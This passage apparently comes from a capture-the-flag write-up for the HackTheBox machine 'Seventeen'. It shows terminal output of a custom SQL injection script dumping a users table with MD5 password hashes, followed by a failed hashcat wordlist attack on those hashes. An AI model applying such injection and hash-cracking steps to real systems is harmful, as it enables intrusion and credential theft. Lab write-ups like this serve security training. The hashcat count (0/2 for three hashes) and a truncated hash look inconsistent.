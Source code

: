 ```bash
[*] Finding length of column name at index 6...
[✔] Length of column 6: 10
[*] Extracting column name at index 6...

...SNIP...
```

##### Dump

```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ python sqli_dump.py     

...SNIP...

[✔] Extracted Data from Table:
{'id': '1', 'username': 'admin', 'password': 'fc8ec7b43523e186a27f46957818391c', 'avatar': '../oldmanagement/files/avatar.png'}
{'id': '6', 'username': 'UndetectableMark', 'password': '48bb86d036bb993dfdcf7fefdc60cc06', 'avatar': '../oldmanagement/files/avatar.png'}
{'id': '7', 'username': 'Stev1992', 'password': '184fe92824bea12486ae9a5600228ee', 'avatar': '../oldmanagement/files/avatar.png'}
```

Given the extracted password, I tried to crack the hash but failed.

```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ cat hashes             
fc8ec7b43523e186a27f46957818391c
48bb86d036bb993dfdcf7fefdc60cc06
184fe92824bea12486ae9a5600228ee


┌──(kali㉿kali)-[~/htb/seventeen]
└─$ hashcat -m 0 -a 0 hashes /usr/share/wordlists/rockyou.txt        
hashcat (v6.2.6) starting

...SNIP...

Session..........: hashcat                                
Status...........: Exhausted
Hash.Mode........: 0 (MD5)
Hash.Target......: hashes
Time.Started.....: Sun Mar 16 01:24:40 2025 (3 secs)
Time.Estimated...: Sun Mar 16 01:24:43 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  6008.7 kH/s (0.04ms) @ Accel:256 Loops:1 Thr:1 Vec:4
Recovered........: 0/2 (0.00%) Digests (total), 0/2 (0.00%) Digests (new)

...SNIP...
```
